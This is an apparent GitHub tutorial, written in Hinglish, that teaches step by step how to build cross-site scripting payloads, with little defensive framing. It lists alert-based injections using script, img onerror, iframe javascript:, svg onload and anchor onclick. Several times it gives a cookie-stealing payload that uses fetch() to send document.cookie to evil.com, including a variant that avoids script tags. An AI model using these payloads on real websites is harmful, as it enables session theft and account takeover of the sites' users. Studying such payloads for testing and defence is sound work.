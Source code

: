 # 💣 XSS Payload Banana – Step by Step

🔹 Step 1: Start karo <script> tag se

Yeh browser ko batata hai ke ab JavaScript chalne wali hai.

**<script>**

🔹 Step 2: JavaScript code likho uske andar

Sabse simple payload hota hai **alert('XSS')** — isse popup aata hai.

**<script>
alert('XSS');
</script>**

🔹 Step 3: End karo </script> se

Yeh batata hai ke JavaScript ka block khatam ho gaya.

---

### ✅ Final Payload:

**<script>alert('XSS');</script>**

---

### 🔥 Advanced Payload Example:

Agar tum cookie nikalna chahte ho:

**<script>
fetch("https://evil.com/steal?c=" + document.cookie);
</script>**

Yahan:

document.cookie → user ki cookie le raha hai

fetch() → us cookie ko attacker ki site par bhej raha hai

---

### ⚠️ Bonus Tip:

Kayi websites <script> block karti hain. Tab tum alternate technique use karte ho:

**<img src=x onerror=alert('XSS')>**

Yahan:

**<img>** toh allow hai

**onerror** JavaScript chala deta hai jab image load na ho

# 🔰 1. <img> tag ke saath XSS Payload

**<img src="x" onerror="alert('XSS')">**

### ✅ Kya ho raha hai?

**src="x"** → image load nhi ho paayi

**onerror="..."** → jab error aaya toh JavaScript chali

Isme " quotes use hue hain attribute values ke liye

Aur 'XSS' single quotes alert ke message mein

---

### 🔰 2. <iframe> tag ke saath XSS Payload

**<iframe src="javascript:alert('XSS')"></iframe>**

Kuch browsers allow nhi karte, lekin testing ke liye useful hai

---

### 🔰 3. <svg> + onload

**<svg onload="alert('XSS')"></svg>**

svg graphics ke liye hota hai, lekin onload ke through JavaScript chala sakte ho

---

### 🔰 4. Anchor Tag <a> with onclick

**<a href="#" onclick="alert('XSS')">Click me</a>**

Jab banda is link pe click kare, XSS payload trigger hoga

---

## 📌 "Double Quotes" aur 'Single Quotes' ka use:

Situation	Use

HTML attribute ke liye	"..." double quotes

JavaScript string ke liye	'...' single quotes ya double bhi chal jaata hai


Example:

```<img src="x" onerror="alert('Hello')">```

---

**"x"** → image path

---

**onerror="alert('Hello')"** → **outer quotes "..."** (HTML)

inner 'Hello' → (JavaScript)

---

### 📌 + ka use kab hota hai?

**+** ka use hota hai string concatenate karne ke liye JavaScript mein.
Matlab, do cheezein jorna.

Example:

**<script>
  fetch("https://evil.com/steal?cookie=" + document.cookie);
</script>**

**"https://..."** ek string hai

**document.cookie** second part

**+** dono ko jod raha hai

### Result: **https://evil.com/steal?cookie=abc123xyz** (cookie wali URL ban gayi)

---

### ✅ Real-World Example: Pure HTML Based XSS (no <script>)

```<img src="x" onerror="fetch('https://evil.com?c='+document.cookie)">```

---


### Agar website ne JavaScript ko block kar diya ho (ya CSP lagi ho), toh...

⚠️ Toh phir yeh sab payloads jaise:

**<script>alert(1)</script>**

```**<img src=x onerror=alert(1)>**```

---

```<svg onload=alert(1)>```

---

**<iframe src="javascript:alert(1)">**

kaam nahi karein ge ya blocked ho jaayenge ❌





